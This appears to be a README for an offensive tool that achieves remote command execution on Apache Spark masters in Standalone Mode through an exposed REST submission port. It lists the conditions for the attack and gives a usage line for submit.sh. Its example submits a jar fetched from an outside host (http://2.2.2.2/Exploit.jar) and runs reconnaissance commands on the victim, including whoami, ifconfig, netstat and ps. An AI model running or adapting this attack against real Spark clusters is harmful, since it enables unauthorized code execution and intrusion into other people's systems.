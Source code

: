 # Remote Command Execution Over Spark

## Conditions
1. Spark is running on Standalone Mode.
2. REST URL of Master is accessible.

## How to use

```bash
./submit.sh spark_rest_url spark_version jar_url commands
```

### Example

```bash
./submit.sh \
1.1.1.1:6066 \
2.2.0 \
http://2.2.2.2/Exploit.jar \
"whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
```
